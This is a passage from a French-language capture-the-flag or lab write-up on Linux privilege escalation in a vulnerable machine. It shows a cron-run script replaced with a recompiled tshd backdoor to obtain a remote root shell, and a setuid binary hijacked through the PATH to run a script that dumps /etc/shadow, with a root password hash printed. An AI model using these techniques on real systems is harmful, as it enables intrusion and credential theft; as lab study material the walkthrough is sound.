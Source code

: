 Je vois bien le timestamp sur le fichier */home/user4/abc.txt* être modifié toutes les 5 minutes malgré cela mes éditions sur le script n'ont pas permis de faire exécuter mes commandes :-/  

J'ai essayé de rajouter le [shebang](https://fr.wikipedia.org/wiki/Shebang) mais aucune commande n'était exécutée... C'est même étonnant que la commande *touch* fonctionnait jusque là.  

La *crontab* devrait appeler le fichier avec *bash -c*. Je n'ai pas la solution à ce mystère de pourquoi le *touch* fonctionnait, quoiqu'il en soit en recompilant *tshd* pour qu'il utilise un autre port et en plaçant le binaire à */home/user4/Desktop/autoscript.sh* il était bien exécuté.  

```plain
$ ./tsh 192.168.3.2
Welcome to Linux Lite 4.4

You are running in superuser mode, be very careful.

Saturday 06 July 2019, 20:50:18
Memory Usage: 308/985MB (31.27%)
Disk Usage: 6/217GB (3%)

 root  ~  id
uid=0(root) gid=0(root) groups=0(root)
```

User5 vers root
---------------

Cet utilisateur dispose lui aussi d'un binaire setuid 0 nommé *script*.  

```plain
$ ./script 
Desktop  Documents  Downloads  ls  Music  Pictures  Public  script  Templates  Videos
```

Ce binaire appelle la commande *ls* mais celle du système, pas le script du même nom dans le dossier utilisateur avec ce contenu :  

```bash
id
whoami
cat /etc/shadow
```

On peut forcer l'utilisation du *ls* sous notre contrôle en changeant le PATH :  

```plain
$ PATH=.:$PATH ./script 
uid=0(root) gid=0(root) groups=0(root),1004(user5)
root
root:$6$mqjgcFoM$X/qNpZR6gXPAxdgDjFpaD1yPIqUF5l5ZDANRTKyvcHQwSqSxX5lA7n22kjEkQhSP6Uq7cPaYfzPSmgATM9cwD1:18050:0:99999:7:::
--- snip ---
```

User5 vers root (via NFS)
-------------------------

La commande *showmount* a échouée, il n'en reste pas moins que *LinEnum* a vu l'existence d'un point de montage :  
